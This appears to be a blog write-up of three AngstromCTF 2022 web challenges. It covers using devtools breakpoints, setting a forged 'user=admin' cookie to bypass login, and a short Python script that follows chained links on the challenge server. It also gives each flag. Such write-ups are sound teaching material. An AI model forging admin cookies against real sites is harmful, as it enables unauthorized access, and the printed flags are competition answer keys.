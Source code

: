 ```yaml
---
title: AngstromCTF 2022
description: From AngstromCTF2022
author: to^
date: 2022-05-02 22:25:00 +0700
categories: [WebSec, CTF]
tags: [xss, sqli, rce, xs-leak, cookie bomb, cache probing]     # TAG names should always be lowercase
img_path: /assets/img/angstromctf2022
image:
 src: logo.jpg
 alt: AngstromCTF2022 logo
 width: 1000
 height: 400
---
```


My solution for some web challenges in this competition

## The Flash

Use DOM breakpoints in Chrome devtools, right click on `p` tag and chose `Break on -> subtree modifications` then step over to get flag

> **actf{sp33dy_l1ke_th3_fl4sh}**
{: .prompt-info  }

___

## Auth Skip

set cookie: `user=admin`

> **actf{passwordless_authentication_is_the_new_hip_thing}**
{: .prompt-info  }

___

## crumbs

exploit script:
```py
import requests
import re

TARGET = "https://crumbs.web.actf.co/"

s = requests.Session()
next = ""
for i in range(1002):
    r = s.get(TARGET + next)
    if i == 1001:
        print(r.text)
        break
    next = re.search(r"Go to (.*)", r.text).group(1)
    print(next)
```
